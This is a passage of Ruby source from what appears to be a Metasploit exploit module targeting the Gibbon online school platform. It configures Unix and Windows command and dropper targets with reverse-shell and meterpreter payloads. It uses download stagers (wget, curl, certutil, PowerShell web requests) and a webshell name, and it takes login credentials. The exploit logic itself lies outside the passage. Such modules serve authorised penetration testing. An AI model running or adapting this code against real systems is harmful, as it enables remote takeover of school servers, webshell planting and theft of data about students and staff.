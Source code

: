 ```
              'Type' => :unix_cmd,
              'DefaultOptions' => {
                'PAYLOAD' => 'cmd/unix/reverse_bash'
              }
            }
          ],
          [
            'Linux Dropper',
            {
              'Platform' => ['linux'],
              'Arch' => [ARCH_X64, ARCH_X86],
              'Type' => :linux_dropper,
              'CmdStagerFlavor' => ['wget', 'curl', 'bourne', 'printf', 'echo'],
              'Linemax' => 16384,
              'DefaultOptions' => {
                'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
              }
            }
          ],
          [
            'Windows Command',
            {
              'Platform' => 'win',
              'Arch' => ARCH_CMD,
              'Type' => :windows_cmd,
              'DefaultOptions' => {
                'PAYLOAD' => 'cmd/windows/powershell/x64/meterpreter/reverse_tcp'
              }
            }
          ],
          [
            'Windows Dropper',
            {
              'Platform' => 'win',
              'Arch' => [ARCH_X64, ARCH_X86],
              'Type' => :windows_dropper,
              'Linemax' => 16384,
              'CmdStagerFlavor' => ['psh_invokewebrequest', 'vbs', 'debug_asm', 'debug_write', 'certutil'],
              'DefaultOptions' => {
                'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
              }
            }
          ]
        ],
        'DefaultTarget' => 0,
        'DefaultOptions' => {
          'SSL' => true,
          'RPORT' => 443
        },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )
    register_options([
      OptString.new('TARGETURI', [ true, 'The Gibbon online school platform endpoint URL', '/' ]),
      OptString.new('WEBSHELL', [false, 'Set webshell name without extension. Name will be randomly generated if left unset.', nil]),
      OptString.new('USERNAME', [true, 'Gibbon username to login, typically an e-mail address']),
      OptString.new('PASSWORD', [true, 'Password'])
```